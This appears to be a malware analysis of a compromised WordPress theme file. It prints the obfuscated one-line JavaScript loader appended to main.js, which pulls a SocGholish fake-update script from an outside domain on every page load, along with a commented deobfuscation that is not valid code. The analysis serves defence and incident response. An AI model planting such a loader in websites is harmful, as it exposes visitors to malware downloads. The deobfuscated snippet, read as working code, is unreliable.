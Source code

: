 **What Norton Detected:**
- The malicious JavaScript loading from `content-website-analytics.com`
- Classified as "SocGholish-C" variant
- Blocked the connection to protect the user

---

## Malware Analysis

### Infected File

**Location:** `wp-content/themes/mpa-custom/js/main.js`  
**File Size:** 83 KB  
**Last Modified:** October 28, 2025 at 06:02 AM UTC  
**Infection Method:** Single malicious line appended to end of file

### Malicious Code (Obfuscated)

```javascript
;(function(f,i,u,w,s){w=f.createElement(i);s=f.getElementsByTagName(i)[0];w.async=1;w.src=u;s.parentNode.insertBefore(w,s);})(document,'script','https://content-website-analytics.com/script.js');
```

### Deobfuscated Code

```javascript
;(function(document, 'script', 'https://content-website-analytics.com/script.js', w, s) {
    w = document.createElement('script');        // Create script element
    s = document.getElementsByTagName('script')[0]; // Get first script tag
    w.async = 1;                                 // Load asynchronously
    w.src = 'https://content-website-analytics.com/script.js'; // Set malicious source
    s.parentNode.insertBefore(w, s);            // Inject into page
})(document, 'script', 'https://content-website-analytics.com/script.js');
```

### What This Does

1. **Creates a new `<script>` element** dynamically in the browser
2. **Sets the source** to `https://content-website-analytics.com/script.js`
3. **Injects it into the page** before the first existing script tag
4. **Loads asynchronously** to avoid detection and performance impact
5. **Executes automatically** on every page load

### Malicious Domain

**Domain:** `content-website-analytics.com`  
**Purpose:** Hosts the SocGholish payload script  
**Action:** Displays fake browser update prompts  
**Risk Level:** CRITICAL - leads to malware downloads

⚠️ **WARNING:** This domain is malicious. Do NOT visit it.

---
